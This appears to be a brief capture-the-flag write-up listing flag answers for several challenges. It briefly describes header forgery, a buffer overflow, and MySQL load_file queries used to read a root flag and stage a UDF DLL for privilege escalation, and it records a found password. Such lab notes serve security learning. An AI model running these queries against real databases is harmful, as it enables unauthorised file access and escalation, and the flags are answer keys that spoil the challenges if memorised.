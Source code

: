 `flag{2d39ef6b9bc80c74405c443fc83c5772}`

## Read the Docs

Have not solved yet.

## Andra

unzipped the apk and grepped for `flag{`
`flag{d9f72316dbe7ceab0db10bed1a738482}`

## Homeward Bound

Used burpsuite to forge `X-Forwared-For: 127.0.0.1` headers
`flag{26080a2216e95746ec3e932002b9baa4}`

## Ret2Basic

buffer overflow 120 characters + address of `win` function == flag!
`flag{d07f3219a8715e9339f31cfbe09d6502}`

----

### Orion Morra - Support - Path3

`Twitter`: `https://twitter.com/OrionMorra`
`Flag in picture`: `flag{0bcffb17cbcbf4359a42ec45d0ccaf2}`
`password on sticky note`: `stars4love4life`

#### PoC Stage 3 Path 3

`Used`: `https://recipeforroot.com/mysql-to-system-root/`

```sql
USE mysql;
CREATE TABLE potato(line blob);
INSERT INTO potato values(load_file('C://Users//Bob//Desktop//lib_mysqludf_sys.dll'));
SELECT * from potato;
```

#### Attack Stage 3 Path 3

```sql
USE mysql;
CREATE TABLE potato(line blob);
INSERT INTO potato values(load_file('/root/flag.txt'));
```

`root flag`: `flag{183bdf6f145a1c97f0b4f520355e8ed5}`

#### firmware.tar.gz Stage 4 Path 3

`"backdoor"` in `firmware.tar.gz`
